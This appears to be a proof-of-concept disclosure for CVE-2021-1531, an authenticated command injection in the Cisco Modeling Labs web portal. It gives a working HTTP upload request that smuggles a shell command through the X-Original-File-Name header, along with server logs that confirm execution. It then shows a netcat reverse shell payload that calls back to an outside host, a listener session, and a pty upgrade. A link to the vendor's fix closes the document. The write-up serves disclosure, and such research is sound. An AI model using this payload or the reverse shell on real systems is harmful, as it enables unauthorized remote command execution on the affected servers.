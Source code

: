     Cisco Modeling Labs 2.1.1-b19 Post-Auth RCE Vulnerability

    CVE-2021-1531

    =======
    Details
    =======

    Authenticated command injection in the web portal via the X-Original-File-Name header.

    Tested with portal 'admin' user who does not have a system login or SSH access, but likely works for any user who can upload files in the portal.

    =====
    Repro
    =====

    -------
    Request
    -------

    POST /api/v0/images/upload HTTP/1.1
    Host: 10.10.10.118
    X-Original-File-Name: test.rpm';id>/tmp/123'
    Authorization: Bearer [jwt token]
    Content-Length: 0

    --------
    Response
    --------

    HTTP/1.1 200 OK
    Server: nginx/1.14.1
    ...

    "Success"

    ----------------
    Local monitoring
    ----------------

    pid=5547 executed [/bin/sh -c /usr/local/bin/imagetool -stderrthreshold=INFO -multipart move '/var/local/virl2/nginx-temp-folder/0063443599' '/var/local/virl2/dropfolder/test.rpm';id>/tmp/123''; exit 0 ]

    .....

    pid=5555 executed [id ]

    $ cat /tmp/123
    uid=982(virl2) gid=980(virl2) groups=980(virl2),982(wireshark),986(libvirt) context=system_u:system_r:unconfined_service_t:s0

    ============
    Exploitation
    ============

    The netcat binary with -e support is installed on the system, which makes gaining a remote shell as the virl2 user easy for demo.

    -------
    Payload
    -------

    X-Original-File-Name: test.rpm';nc 10.1.1.101 5000 -e /bin/bash'

    --------
    Listener
    --------

    $ nc -l -p 5000
    .....
    *connection received from cml2*

    /usr/libexec/platform-python -c 'import pty; pty.spawn("/bin/bash")'

    *** VIRL2 network simulator monitor ***

    CLI> uname -a
    Linux cml2-controller.cml.lab 4.18.0-80.11.2.el8_0.x86_64 #1 SMP Tue Sep 24 11:32:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

    CLI> pwd
    /var/local/virl2

    ===
    Fix
    ===

    https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cml-cmd-inject-N4VYeQXB